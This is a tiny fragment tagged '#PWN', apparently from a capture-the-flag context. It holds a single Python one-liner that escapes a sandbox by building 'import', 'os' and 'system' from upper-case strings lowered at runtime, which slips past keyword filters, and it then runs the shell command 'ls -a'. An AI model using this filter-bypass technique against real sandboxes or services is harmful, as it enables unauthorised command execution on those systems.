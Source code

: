 ## TAGS : #PWN

```__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('ls -a')```
